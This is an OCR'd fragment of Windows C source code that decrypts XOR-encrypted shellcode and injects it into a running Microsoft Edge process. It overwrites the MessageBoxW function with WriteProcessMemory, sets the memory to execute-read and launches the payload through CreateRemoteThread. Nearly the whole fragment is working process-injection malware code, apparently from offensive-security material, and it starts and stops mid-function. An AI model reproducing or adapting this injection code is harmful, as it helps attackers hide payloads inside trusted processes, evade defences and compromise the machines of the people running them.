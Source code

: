 ```

                            /* Decrypt shellcode encryption key */
                            if (pbDecryptedKey = DecryptKey(HintByte, Key, sizeof(Key)))
                            {

                                /* Decrypt shellcode */
                                Xor(shellcode, sizeof(shellcode), pbDecryptedKey, sizeof(Key));
                                printf("Decrypted encryption key @ 0x%p\nDecrypted shellcode at 0x%p\n", pbDecryptedKey, shellcode);
                                if (WriteProcessMemory(hProcess, pbTargetFunction, shellcode, sizeof(shellcode), &BytesWritten))
                                {
                                    printf("Overwrote MessageBoxW function in msedge with payload\n");
                                    if (VirtualProtectEx(hProcess, pbTargetFunction, sizeof(shellcode), dwOldProtection, &dwOldProtection))
                                    {
                                        printf("Set memory protection for range 0x%p - 0x%p [%lld bytes] to PAGE_EXECUTE_READ\n", pbTargetFunction, (pbTargetFunction + sizeof(shellcode)), sizeof(shellcode));
                                        if (hThread = CreateRemoteThread(hProcess, NULL, 0, (LPTHREAD_START_ROUTINE)pbTargetFunction, NULL, 0, &dwThreadId))
                                        {
                                            printf("Executed shellcode in msedge [%d] on thread [%d]\n", Process.th32ProcessID, dwThreadId);
                                            WaitForSingleObject(hThread, INFINITE);
                                        }
                                        else
                                        {
                                            error("CreateRemoteThread");
                                        }
                                    }
                                }
                                else
                                {
                                    error("WriteProcessMemory");
                                }
                            }
                        }
                        else
                        {
                            error("VirtualProtectEx");
                        }
                    }
                    break;
                }
                else
                {
                    continue;
                }
            }
        }
        else
        {
            error("Process32First"); return -1;
        }
    }
    else
    {
        error("CreateToolhelp32Snapshot"); return -1;
    }

    if (hSnapshot)
```